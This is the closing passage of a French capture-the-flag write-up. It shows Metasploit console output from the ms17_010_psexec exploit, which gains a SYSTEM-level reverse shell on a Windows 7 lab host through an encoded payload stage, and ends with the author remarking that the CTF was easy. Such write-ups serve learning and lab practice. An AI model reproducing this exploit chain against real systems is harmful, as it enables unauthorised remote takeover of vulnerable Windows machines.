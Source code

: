 ```plain
   0   Automatic

msf5 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.254.0.29:443
[*] 10.1.1.15:445 - Authenticating to 10.1.1.15 as user 'russel'...
[*] 10.1.1.15:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.1.1.15:445 - Built a write-what-where primitive...
[+] 10.1.1.15:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.1.1.15:445 - Selecting PowerShell target
[*] 10.1.1.15:445 - Executing the payload...
[+] 10.1.1.15:445 - Service start timed out, OK if running a command or non-service executable...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.1.1.15
[*] Command shell session 1 opened (10.254.0.29:443 -> 10.1.1.15:64657) at 2019-02-23 16:20:22 +0100

C:\Windows\system32>whoami
nt authority\system
```

Zeta
----

C'est tout pour ce CTF qui était très facile :)

*Published November 17 2020 at 13 55*